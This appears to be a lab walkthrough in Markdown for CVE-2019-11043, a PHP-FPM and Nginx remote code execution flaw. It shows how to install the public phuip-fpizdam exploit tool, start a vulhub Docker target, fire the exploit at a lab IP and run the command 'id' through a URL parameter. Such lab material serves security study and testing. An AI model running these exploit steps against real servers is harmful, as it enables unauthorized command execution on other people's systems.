 # CVE-2019-11043 php-fpm+Nginx RCE

## 0x01 install phuip-fpizdam-Mac

`go get github.com/neex/phuip-fpizdam`

`go install github.com/neex/phuip-fpizdam`

![](./phuip-fpizdam-Mac.jpg)
```
ale@Pentest ~/go go get github.com/neex/phuip-fpizdam
ale@Pentest ~/go go install github.com/neex/phuip-fpizdam
ale@Pentest ~/go ls
bin src

ale@Pentest ~/go cd bin
ale@Pentest ~/go/bin ls
phuip-fpizdam

ale@Pentest ~/go/bin file phuip-fpizdam
phuip-fpizdam: Mach-O 64-bit executable x86_64

ale@Pentest ~/go/bin ls -lah phuip-fpizdam
-rwxr-xr-x  1 ale  staff   9.3M Oct 24 07:30 phuip-fpizdam

ale@Pentest ~/go/bin
```

##### phuip-fpizdam help
```
./phuip-fpizdam

Error: accepts 1 arg(s), received 0
Usage:
  phuip-fpizdam [url] [flags]

Flags:
      --cookie string       send this cookie
  -h, --help                help for phuip-fpizdam
      --kill-count int      how many times to send the worker killing payload (default 50)
      --kill-workers        just kill php-fpm workers (requires only QSL)
      --method string       detect method (see detect_methods.go) (default "session.auto_start")
      --only-qsl            stop after QSL detection, use this if you just want to check if the server is vulnerable
      --pisos int           pisos hint
      --qsl int             qsl hint
      --reset-retries int   how many retries to do for --reset-setting, -1 means a lot (default 50)
      --reset-setting       try to reset setting (requires attack params)
      --setting string      specify custom php.ini setting for --reset-setting
      --skip-attack         skip attack phase
      --skip-detect         skip detection phase

2019/10/24 07:53:55 accepts 1 arg(s), received 0

```
## 0x02 install phuip-fpizdam-Windows

`https://github.com/neex/phuip-fpizdam/archive/master.zip`

`go build`

![](./phuip-fpizdam-Windows.jpg)

## 0x03 docker for CVE-2019-11043

```
root@kali:~# cd ~/vulhub/php/CVE-2019-11043

root@kali:~/vulhub/php/CVE-2019-11043# ls

1.png  2.png  default.conf  docker-compose.yml  README.md  www

root@kali:~/vulhub/php/CVE-2019-11043# docker-compose up -d

Creating network "cve-2019-11043_default" with the default driver
Creating cve-2019-11043_php_1 ... done
Creating cve-2019-11043_nginx_1 ... done
root@kali:~/vulhub/php/CVE-2019-11043#


root@kali:~/vulhub/php/CVE-2019-11043# docker ps -a
CONTAINER ID  IMAGE  COMMAND  CREATED  STATUS  PORTS  NAMES

9923d12fdff0 nginx:1 "nginx -g 'daemon of…" 43 seconds ago Up 41 seconds 0.0.0.0:8080->80/tcp cve-2019-11043_nginx_1

d3135c708e7b php:7.2.10-fpm "docker-php-entrypoi…" 44 seconds ago Up 42 seconds 9000/tcp cve-2019-11043_php_1

```
![](./CVE-2019-11043-docker.png)

## 0x04 send poc

`./phuip-fpizdam http://10.10.20.166:8080/index.php`

![](./php-command.jpg)

`http://10.10.20.166:8080/index.php?a=id`

![](./CVE-2019-11043.jpg)

## 0x05 参考链接

https://github.com/neex/phuip-fpizdam

https://github.com/vulhub/vulhub/tree/master/php/CVE-2019-11043

